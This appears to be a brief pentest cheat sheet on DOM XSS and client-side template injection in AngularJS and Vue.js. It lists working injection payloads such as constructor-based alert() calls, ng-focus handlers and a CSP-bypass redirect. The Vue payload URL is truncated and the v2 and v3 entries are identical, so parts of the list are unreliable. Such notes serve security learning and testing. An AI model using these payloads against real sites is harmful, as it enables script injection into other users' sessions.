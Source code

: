 ![image1](Image/xss.png)

## DOM XSS in AngularJS expression

- __When HTML contains ng-app attribute__
  - __you can execute arbitrary JavaScript code__
  - __To get the payloads go to book.hacktricks.xyz__
  - __use any payload in the search bar__
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

## vueJS
- Working payload: `https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`\
- A really good post on CSTI in VUE can be found in [portswigger.net](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)
  ### v3
    - `{{_openBlock.constructor('alert(1)')()}}`
  
  ### v2
    - `{{_openBlock.constructor('alert(1)')()}}`
